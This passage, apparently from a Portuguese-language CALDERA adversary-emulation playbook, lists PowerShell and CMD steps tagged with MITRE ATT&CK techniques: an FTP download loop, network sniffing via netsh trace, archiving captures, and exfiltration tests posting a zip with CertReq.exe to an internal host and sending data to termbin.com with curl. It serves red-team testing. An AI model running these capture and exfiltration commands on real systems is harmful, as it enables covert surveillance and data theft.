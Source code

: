         $ftpResponse = $ftpRequest.GetResponse();
        $ftpStream = $ftpResponse.GetResponseStream();

        $localFile = New-Object System.IO.FileStream($localPath, [System.IO.FileMode]::Create);
        $ftpBuffer = New-Object byte[] 1024;
        $read = 0;
        while (($read = $ftpStream.Read($ftpBuffer, 0, 1024)) -gt 0)
        {
            $localFile.Write($ftpBuffer, 0, $read)
        };
        $localFile.Close();
        $ftpStream.Close();
        $ftpResponse.Close();
        ```

- Iniciando a captura de trafego da rede [[`Discovery:T1040:Network Sniffing`](https://attack.mitre.org/techniques/T1040/)] (`powershell`)
```powershell
$env:HostIP = ( Get-NetIPConfiguration | Where-Object { $_.IPv4DefaultGateway -ne $null -and $_.NetAdapter.Status -ne "Disconnected" }).IPv4Address.IPAddress
netsh trace start capture=yes IPv4.Address=$env:HostIP tracefile=$env:TMP\caldera\capture.etl
Start-Sleep 90
netsh trace stop
```

- Convertendo arquivo __ETL__ para __PCAP__ [[`Collection:T1560.001:Archive via Utility`](https://attack.mitre.org/techniques/T1560/001/)] (`powershell`)
```powershell
if (Test-Path $env:TMP\caldera\downloads\etl2pcapng_curl.exe )     { &$env:TMP\caldera\downloads\etl2pcapng_curl.exe $env:TMP\caldera\capture.etl $env:TMP\caldera\exfil\capture_curl.pcap }
if (Test-Path $env:TMP\caldera\downloads\etl2pcapng_certutil.exe ) { &$env:TMP\caldera\downloads\etl2pcapng_certutil.exe $env:TMP\caldera\capture.etl $env:TMP\caldera\exfil\capture_certutil.pcap }
if (Test-Path $env:TMP\caldera\downloads\etl2pcapng_iwr.exe )      { &$env:TMP\caldera\downloads\etl2pcapng_iwr.exe $env:TMP\caldera\capture.etl $env:TMP\caldera\exfil\capture_iwr.pcap }
```

- Zipa a pasta __%tmp%\caldera\exfill__ [[`Collection:T1560:Archive Collected Data`](https://attack.mitre.org/techniques/T1560/)] (`powershell`)
```powershell
Compress-Archive -Path $env:TMP\caldera\exfil -DestinationPath $env:TMP\caldera\exfiltrate_caldera.zip
```

- Teste de exfiltracao (`CMD`)
  - CertReq.exe [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    ```cmd
    REM LAN
    CertReq.exe -Post -config "http://10.10.64.230/file/upload?cmd" %tmp%\caldera\exfiltrate_caldera.zip
    ```
  
  - Curl.exe [[`Exfiltration:T1567:Exfiltration Over Web Service`](https://attack.mitre.org/techniques/T1567/)]
    ```cmd
    REM WAN (termbin.com)
    curl -k -s http://termbin.com:9999 -d"Teste de Exfiltracao com CURL"
    ```
